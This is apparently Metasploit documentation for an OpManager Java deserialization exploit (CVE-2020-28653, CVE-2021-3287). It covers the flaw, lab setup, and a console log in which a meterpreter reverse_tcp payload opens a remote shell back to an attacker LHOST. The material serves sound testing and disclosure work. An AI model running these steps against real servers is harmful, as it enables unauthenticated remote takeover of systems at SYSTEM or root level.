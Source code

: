 ## Vulnerable Application

### Description

An HTTP endpoint used by the Manage Engine OpManager Smart Update Manager component can be leveraged to deserialize an
arbitrary Java object. This can be abused by an unauthenticated remote attacker to execute OS commands in the context of
the OpManager application (NT AUTHORITY\SYSTEM on Windows or root on Linux). This vulnerability is also present in other
products that are built on top of the OpManager application. This vulnerability affects OpManager versions 12.1 -
12.5.328.

#### CVE-2020-28653
This vulnerability affects OpManager versions 12.1 - 12.5.232. The vulnerability involves sending a malicious PDU to the
SmartUpdateManager handler that when deserialized executes an arbitrary OS command.

#### CVE-2021-3287
This vulnerability is a patch bypass for CVE-2020-28653 and affects OpManager versions 12.5.233 - 12.5.328. When the
original vulnerability was patched, it was done so using a new `ITOMObjectInputStream` deserializer class. This object
has a flaw in its validation logic. The object works by requiring the caller to specify a list of one or more object
classes that can be deserialized. If an instance is used to perform more than one `readObject` call however, only the
first is protected because once a serialized object of an allowed type is read from the stream, the
`ITOMObjectInputStream` instance remains in a sort of authenticated state where subsequent objects can be read of any
type.

The exploit technique for this CVE leverages this by first sending a legitimate, serialized SUMPDU to create an instance
of the `SUMServerIOAndDataAnalyzer` object whose `process` method makes multiple `readObject` calls using the same
instance for each.

Unlike exploiting CVE-2020-28653, to exploit CVE-2021-3287 the target server must have the SUM server running. This is
not the case for the standard installer, but is the case for "Central" variant. Without the SUM server running, the log
handler is not initialized which causes the request handler to crash making the vulnerable code path inaccessible.

### Setup (Windows)

1. Download an affected version for either Windows or Linux from the [archive][0]
1. Run the installer executable
1. Accept the default values for all settings (skip registration), until the very end when prompted to start the
  application
1. Unselect the option to start the application
    1. If this option is missed, just navigate to the tray icon where it will say that it's starting and select the
      option to stop it
1. Start a command prompt as an administrative user
1. Navigate to `C:\Program Files\ManageEngine\OpManager\bin`, older versions use `C:\ManageEngine\OpManager\bin`
1. Run `run.bat`
1. View and accept the license terms
1. Press `f` to run the product in Free mode

OpManager should start successfully after a few minutes. At that point the service can be exploited. In this case the
session will be opened in the context of the user that ran the service with `run.bat`. Once the server is restarted and
OpManager starts automatically, the vulnerability can be exploited to open a session in the context of NT
AUTHORITY\SYSTEM.

### Setup (Linux)

1. Download an affected version for either Windows or Linux from the [archive][0]
1. Run the installer executable as root
1. Accept the default values for all settings (skip registration)
1. Navigate to `/opt/ManageEngine/OpManagerCentral/bin`, older versions use `/opt/ManageEngine/OpManager/bin`
1. Run `run.sh` as root

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/opmanager_sumpdu_deserialization`
1. Set the `RHOSTS`, `TARGET`, `PAYLOAD` and payload-related options as necessary
1. Do: `run`
1. You should get a shell.

## Options

### CVE
Vulnerability to use. If set to 'Automatic' (the default), the module will attempt to detect the version and select the
correct vulnerability.

## Scenarios

### Windows Server 2019 x64 w/ ManageEngine OpManager v12.5.328

```
msf > use exploit/multi/http/opmanager_sumpdu_deserialization 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(multi/http/opmanager_sumpdu_deserialization) > set RHOSTS 192.168.159.96
RHOSTS => 192.168.159.96
msf exploit(multi/http/opmanager_sumpdu_deserialization) > set TARGET Windows\ PowerShell 
TARGET => Windows PowerShell
msf exploit(multi/http/opmanager_sumpdu_deserialization) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/http/opmanager_sumpdu_deserialization) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(multi/http/opmanager_sumpdu_deserialization) > check
[*] 192.168.159.96:8060 - The target appears to be vulnerable.
msf exploit(multi/http/opmanager_sumpdu_deserialization) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] An HTTP session cookie has been issued
[*] Detected version: 12.5.328
[*] The request handler has been associated with the HTTP session
[*] Sending stage (200262 bytes) to 192.168.159.96
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.96:63887) at 2021-09-16 14:06:27 -0400

meterpreter > getuid
Server username: MSFLAB\smcintyre
meterpreter > sysinfo
Computer        : WIN-3MSP8K2LCGC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter > 
```

[0]: https://archives.manageengine.com/opmanager/

